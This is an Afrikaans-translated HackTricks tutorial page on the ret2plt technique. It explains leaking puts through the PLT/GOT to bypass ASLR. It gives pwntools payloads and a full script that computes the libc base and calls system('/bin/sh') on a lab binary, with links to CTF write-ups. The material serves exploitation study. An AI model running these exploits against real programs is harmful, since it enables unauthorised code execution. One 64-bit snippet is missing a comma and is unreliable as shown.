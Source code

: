 # Ret2plt

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

Die doel van hierdie tegniek sou wees om **'n adres van 'n funksie van die PLT te lek** om ASLR te kan omseil. Dit is omdat as jy byvoorbeeld die adres van die funksie `puts` van die libc lek, kan jy dan **bereken waar die basis van `libc` is** en afsette bereken om ander funksies soos **`system`** te kan benader.

Dit kan gedoen word met 'n `pwntools` lading soos ([**van hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
Merk op hoe **`puts`** (met die adres van die PLT) geroep word met die adres van `puts` wat in die `GOT` geleë is. Dit is omdat teen die tyd dat `puts` die `GOT` inskrywing van puts druk, sal hierdie **inskrywing die adres van `puts` in die geheue bevat**.

Merk ook op hoe die adres van `main` in die aanval gebruik word sodat wanneer `puts` sy uitvoering beëindig, die **binêre `main` weer roep in plaas van om af te sluit** (sodat die uitgelekte adres geldig bly).

{% hint style="danger" %}
Merk op hoe om hierdie te laat werk, moet die **binêre nie met PIE saamgestel word nie** of jy moet 'n lek gevind het om PIE te omseil om die adres van die `PLT`, `GOT` en `main` te weet.
{% endhint %}

Jy kan 'n [**volledige voorbeeld van hierdie omseiling hier vind**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). Dit was die finale aanval van daardie voorbeeld:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## Ander voorbeelde & Verwysings

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64-bis, ASLR geaktiveer maar geen PIE, die eerste stap is om 'n oorvloei te vul tot by die byte 0x00 van die kanarie om dan puts te roep en dit te lek. Met die kanarie word 'n ROP-gadget geskep om puts te roep om die adres van puts van die GOT te lek en dan 'n ROP-gadget om `system('/bin/sh')` te roep.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64-bis, ASLR geaktiveer, geen kanarie, stapeloorvloei in hoof van 'n kindfunksie. ROP-gadget om puts te roep om die adres van puts van die GOT te lek en dan 'n enkele gadget te roep.
